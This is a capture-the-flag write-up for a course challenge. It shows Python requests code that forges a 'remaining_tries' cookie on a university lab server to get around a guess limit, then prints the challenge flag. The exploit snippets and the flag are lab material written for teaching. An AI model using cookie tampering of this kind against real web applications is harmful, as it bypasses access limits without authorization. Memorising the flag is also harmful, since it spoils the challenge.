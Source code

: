 # Challenge `Python requests Again` Writeup

- Vulnerability: 
  - brute-force attack and cookie manipulation
- Where:
  - `/more` endpoint and cookie value
- Impact:
  - allows to find the server's guess by enumeration

## Analyzing the server

This challenges consists in guessing a random number generated by the server.
However, you are only allowed one guess per guess.
By sending a request to `/hello` endpoint, the server responds with a initial value and a target value.
By sending a request to `/more` endpoint, our value increases or decreases by a random amount.
The flag is obtained by sending a request to `/finish` when the current value is equal to the target value.
The server's guess is associated with a user cookies, so all requests must be sent with the same cookie.

## Exploit

First send a request to `/hello` to obtain a cookie and the `current` and `target` values. 
```python
session = requests.session()
r = session.get(URL+"hello")
lines = r.text.split("<br>")
total = lines[0].split(" ")[-1][:-1]
current = lines[1].split(" ")[-1]
```
If they are different, send requests to `/more` until they are the same.
To be able to send more requests, we forge the `remaining_tries` value by modifying the cookie.
We can either set the value to `1` after each guess or set a new cookie entry with the same `remaining_tries` name and no specific domain.
```python
r = session.get(URL+"more")
lines = r.text.split("<br>")
current = lines[2].split(" ")[-1]
session.cookies.set("remaining_tries", "1", domain="mustard.stt.rnl.tecnico.ulisboa.pt")
```  
Finally send a request to `/finish` to obtain the flag `SSof{Client_side_validation_NO_NO_NO}`.
```python
r = session.get(URL+"finish")
flag = r.text.split(" ")[-1]
```

## Implementation

These code snippets and full implementation can be found [here](python_requests_again.py).
